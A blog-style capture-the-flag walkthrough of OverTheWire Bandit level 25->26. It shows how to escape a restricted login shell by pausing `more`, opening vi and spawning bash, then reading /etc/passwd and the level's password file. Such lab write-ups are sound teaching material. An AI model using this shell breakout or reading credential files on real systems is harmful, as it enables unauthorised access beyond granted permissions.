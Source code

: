 ```yaml
---
title: OverTheWire Bandit Level 25 -> 26
author: Michael McDonagh
pubDatetime: 2025-03-01T23:00:00Z
slug: overthewire-bandit-26
featured: false
draft: false
tags:
  - overthewire
  - bandit
  - linux
ogImage: ""
description: Solution for OverTheWire Bandit level 26 challenge.
---
```


## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

---

## Walkthrough

Solution for the Overthewire.org [Bandit level 25 -> 26](https://overthewire.org/wargames/bandit/bandit26.html)

Login to the server using the password obtained from the previous level [Bandit level 24 -> 25](/posts/overthewire-bandit-25).  

username: `bandit25`  

```bash
ssh bandit25@bandit.labs.overthewire.org -p 2220
```

When checking the home directory we can see an ssh key for bandit26.

```bash
bandit25@bandit:~$ ls
bandit26.sshkey
```

When using the ssh key to log into bandit26 we see a Bandit26 message and then the connection is closed.  

```bash
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to localhost closed.
bandit25@bandit:~$
```

According to the level description bandit26 is not running /bin/bash like the other levels. So what shell is bandit26 running ?  

We can find this out by checking `/etc/passwd` and finding user bandit26.

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

It looks like bandit26 is running `/usr/bin/showtext` instead of `/bin/bash`.  
Let's check what showtext is doing.

```bash
bandit25@bandit:~$ cat /usr/bin/showtext 
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```

Showtext is using `more` to display the contents of `text.txt` to the screen and then is exiting.

`more` is used to view file contents one screenful at a time.  
Through checking the man page we can find different options to use. One such option is `v` when used while `more` is still running. It allows us to open a `vi` editor which we can then read/edit other files.

```text
Extract from the more man page
       v
           Start up an editor at current line. The editor is taken from
           the environment variable VISUAL if defined, or EDITOR if
           VISUAL is not defined, or defaults to vi(1) if neither VISUAL
           nor EDITOR is defined.
```

The problem now is that `more` always closes thus we cannot use the `v` command.  
To solve this we need the message that is displayed to be bigger then the screen.  
This can be done through a combination of resizing the terminal window and increasing the font size

```bash
Terminal Window reized small and text font increased 
+--------------------------------------------+
|  _                     _ _ _   ___   __    |
| | |                   | (_) | |__ \ / /    |
| | |__   __ _ _ __   __| |_| |_   ) / /_    |
| | '_ \ / _` | '_ \ / _` | | __| / / '_ \   |
| | |_) | (_| | | | | (_| | | |_ / /| (_) |  |
|--More--(83%)                               |
+--------------------------------------------+
```

With the `more` program stopped from completing we can now use `v` to open a `vi` editor.

```bash
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
<RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
"~/text.txt" [readonly] 6L, 258C
```

Now we are in a vi editor we can use the `:set shell` command to change the shell and give us more control.

```bash
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~text.txt[RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
:set shell=/bin/bash
```

Now still in vi we run `:shell`  to start the bash shell.

```bash
  1   _                     _ _ _   ___   __       
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~text.txt[RO] [dec= 95] [hex=5F] [pos=0001:0003][16% of 6]
:shell
bandit26@bandit:~$
```

Now we have a bash shell as `bandit26` we can read the password to make it easier to login to this level in future.

```bash
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9##########################
```
